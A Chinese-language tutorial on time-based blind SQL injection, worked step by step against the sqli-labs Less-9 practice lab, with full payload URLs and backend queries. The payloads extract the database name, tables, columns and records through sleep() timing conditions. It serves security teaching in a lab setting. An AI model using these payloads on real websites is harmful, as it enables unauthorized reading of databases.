



## 时间盲注

时间盲注又称延迟注入，适用于页面不会返回错误信息，只会回显一种界面(与布尔盲注类似)。这种情况可以利用页面响应的时间来判断SQL语句在目标数据库中是否正确执行，从而猜解一些未知的字段。

由于时间盲注的大部分SQL语句和布尔盲注的都十分类似，所以后续大部分过程只会给出网站URL和后端程序所执行的SQL语句。

### 注入过程

* 判断是否存在注入
* 获取数据库长度
* 逐字猜解数据库名
* 猜解表名数量
* 猜解某个表名长度
* 逐字猜解表名
* 猜解列名数量
* 猜解某个列名长度
* 逐字猜解列名
* 判断数据数量
* 猜解某条数据长度
* 逐位猜解数据

### 判断是否存在注入

* `sleep(time)`

  `time`为每条记录休眠的时间，time可以为小数。

  该函数是将程序挂起一段时间，挂起总时间为time*记录数。

  由于没有任何的回显内容，所以无法通过正常的方法判断是否存在注入，只能通过`sleep()`函数进行测试。

  输入`1 and sleep(5)`、`1' and sleep(5) %23`、`1" and sleep(5) %23`等判断是否存在注入点和闭合方式。

以某网站为例，当传入参数的值为`1' and sleep(5) %23`时，网站挂起了5秒多钟。多的那几十毫秒是因为除了设置挂起五秒以外，网站自身也需要请求数据包，请求过程也会消耗一定的时间。



### 获取数据库名

#### 获取数据库名长度

* `if(condition, true_statement, false_statement)`

  `condition`为布尔表达式，返回真或者假。

  `true_statement`：如果条件为真，则执行该语句。

  `false_statement`：如果条件为假，则执行该语句。

仍然以某网站为例：

````
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((length(database())=8),sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((length(database())=8),sleep(5),1) #' LIMIT 0,1
````



可能有些旧版本的`Burpsuite`并没有开启响应时间，需要自行勾选在`Columns`下的`Response received`或`Response completed`。

#### 获取数据库名

成功爆破出数据库库名`security`：

```
115		101		99		117		114		105		116		121
s		e		c		u		r		i		t		y
```



### 获取表名

#### 获取表的数量

爆破之后得到表的数量为4。

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())=4,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((select count(table_name) from Information_schema.tables where table_schema = database())=4,sleep(5),1) #' LIMIT 0,1
```

#### 获取表名长度

爆破之后得到第一个表名长度为6。

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6,sleep(5),1) #' LIMIT 0,1
```

#### 获取表名

爆破出表名为：`emails`

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(ascii(substr((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1),1,1))=101,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(ascii(substr((select table_name from Information_schema.tables where table_schema = database() limit 0,1),1,1))=101,sleep(5),1) #' LIMIT 0,1
```

### 获取字段名

#### 获取字段数量

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((select%20count(column_name)%20from%20Information_schema.columns%20where%20table_schema%20=%20database()%20and%20table_name%20=%20%27emails%27%20)=2,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((select count(column_name) from Information_schema.columns where table_schema = database() and table_name = 'emails' )=2,sleep(5),1) #' LIMIT 0,1
```

#### 获取字段名长度

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(length((select%20column_name%20from%20Information_schema.columns%20where%20table_schema%20=%20database()%20and%20table_name%20=%20%27emails%27%20limit%200,1))=2,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(length((select column_name from Information_schema.columns where table_schema = database() and table_name = 'emails' limit 0,1))=2,sleep(5),1) #' LIMIT 0,1
```

#### 获取字段名

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(ascii(substr((select%20column_name%20from%20Information_schema.columns%20where%20table_schema%20=%20database()%20and%20table_name%20=%20%27emails%27%20limit%200,1),1,1))=105,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(ascii(substr((select column_name from Information_schema.columns where table_schema = database() and table_name = 'emails' limit 0,1),1,1))=105,sleep(5),1) #' LIMIT 0,1
```

### 获取记录

#### 获取记录条数

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((select%20count(id)%20from%20security.emails)=8,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((select count(id) from security.emails)=8,sleep(5),1) #' LIMIT 0,1
```

#### 获取记录长度

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(length((select%20id%20from%20security.emails%20limit%200,1))=1,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(length((select id from security.emails limit 0,1))=1,sleep(5),1) #' LIMIT 0,1
```

#### 获取记录内容

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(ascii(substr((select%20id%20from%20security.emails%20limit%200,1),1,1))=49,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(ascii(substr((select id from security.emails limit 0,1),1,1))=49,sleep(5),1) #' LIMIT 0,1
```

## 